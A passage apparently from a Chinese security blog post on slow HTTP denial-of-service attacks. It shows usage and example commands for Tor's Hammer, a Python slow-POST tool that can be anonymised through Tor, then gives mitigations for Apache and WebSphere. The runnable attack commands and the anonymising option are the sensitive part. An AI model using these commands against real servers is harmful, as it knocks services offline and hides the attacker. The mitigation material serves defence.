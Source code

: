 Tor's Hammer is a slow post dos testing tool written in Python. It can also be run through the Tor network to be anonymized. If you are going to run it with Tor it assumes you are running Tor on 127.0.0.1:9050. Kills most unprotected web servers running Apache and IIS via a single instance. Kills Apache 1.X and older IIS with ~128 threads, newer IIS and Apache 2.X with ~256 threads.

REQUIREMENTS:

This tool is cross-platform because is written in Python. You only need to have python installed on your operating system.

```txt
Python page: http://www.python.org
Download page: http://www.python.org/download
```

USAGE:

```txt
./torshammer.py -t <target> [-r <threads> -p <port> -T -h]
-t|--target <Hostname|IP>
-r|--threads <Number of threads> Defaults to 256
-p|--port <Web Server Port> Defaults to 80
-T|--tor Enable anonymising through tor on 127.0.0.1:9050
-h|--help Shows this help
```

Eg`. ./torshammer.py -t 192.168.1.100 -r 256`

```txt
C:\Users\Mannix\Desktop\Torshammer>python torshammer.py -t 169.254.20.12 -r 256
```

![Snipaste_2018-10-22_18-52-45.png](https://whitecell.io/upload/attach/201810/151_29VWHVJHYU76DZD.png "Snipaste_2018-10-22_18-52-45.png")

![Snipaste_2018-10-22_18-53-07.png](https://whitecell.io//upload/attach/201810/151_77UNX4M9PB2TFBH.png "Snipaste_2018-10-22_18-53-07.png")

---

## 0x05 修复方案

* 1.设置合适的 timeout 时间（Apache 已默认启用了 reqtimeout 模块），规定了 Header 发送的时间以及频率和 Body 发送的时间以及频率

* 2.增大 MaxClients(MaxRequestWorkers)：增加最大的连接数。根据官方文档，两个参数是一回事，版本不同，MaxRequestWorkers was called MaxClients before version 2.3.13. The old name is still supported.

* 3.默认安装的 Apache 存在 Slow Attack 的威胁，原因就是虽然设置的 timeoute，但是最大连接数不够，如果攻击的请求频率足够大，仍然会占满 Apache 的所有连接

针对不同的Server其对慢速http拒绝服务攻击防范方法也不同，建议使用以下措施防范慢速http拒绝服务攻击：

### WebSphere

* 1、限制 HTTP 数据的大小 在WebSphere Application Server 中进行如下设置：

任何单个 HTTP 头的默认最大大小为 32768 字节。可以将它设置为不同的值。

HTTP 头的默认最大数量为 50。可以将它设置为不同的限制值。

另一种常见的 DOS 攻击是发送一个请求，这个请求会导致一个长期运行的 GET 请求。WebSphere Application Server Plug-in 中的 ServerIOTimeoutRetry 属性可限制任何请求的重试数量。这可以降低这种长期运行的请求的影响。


[1]: http://mannix.top/
[2]: https://payloads.online/archivers/2018-04-16/2